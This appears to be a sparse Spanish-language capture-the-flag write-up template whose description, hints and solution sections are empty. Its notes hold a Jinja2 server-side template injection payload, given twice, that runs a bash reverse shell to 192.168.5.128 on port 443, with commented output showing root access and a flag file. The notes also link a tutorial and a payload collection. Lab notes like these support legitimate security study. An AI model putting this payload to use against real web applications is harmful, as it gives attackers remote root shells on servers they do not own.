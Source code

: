## Descripción


## Pistas



## Solución




## Notas Adicionales

Comandos que ejecutar en el kali
ocupo tambien "whatweb"

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/192.168.5.128/443 0>&1" ').read() }}
# uid=0(root) gid=0(root) groups=0(root)
# __pycache__ app.py flag requirements.txt
# root
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/192.168.5.128/443 0>&1" ').read() }}



## Referencias
- Tuto que puede servir: https://www.youtube.com/watch?v=TNtToOKEw54
- Para ver los códigos de inyecciones: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2---basic-injection

